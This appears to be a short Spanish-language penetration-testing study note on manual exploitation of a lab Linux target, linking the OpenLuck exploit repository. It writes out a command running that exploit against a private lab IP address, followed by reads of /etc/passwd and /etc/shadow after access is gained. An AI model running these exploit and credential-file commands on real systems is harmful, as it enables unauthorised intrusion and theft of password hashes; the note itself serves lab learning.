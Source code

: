 # 4 - Manual Explotation

{% embed url="https://github.com/heltonWernik/OpenLuck" %}

![](../../../.gitbook/assets/imagen%20%28368%29.png)

Abajo de eso te dice que usar contra cada objetivo de linux por ejemplo.

![](../../../.gitbook/assets/imagen%20%28360%29.png)

La ennumeration juega un monton aqui.

```text
root@kali: // ./open 0x6xb 192.168.57.134 -c 40
```

![](../../../.gitbook/assets/imagen%20%28375%29.png)

Tenemos acceso:

```text
cat /etc/passwd
```

![](../../../.gitbook/assets/imagen%20%28365%29.png)

Scroleando al final vemos los usuarios custom y no los que vienen

```text
cat etc/shaddow
```

![](../../../.gitbook/assets/imagen%20%28362%29.png)

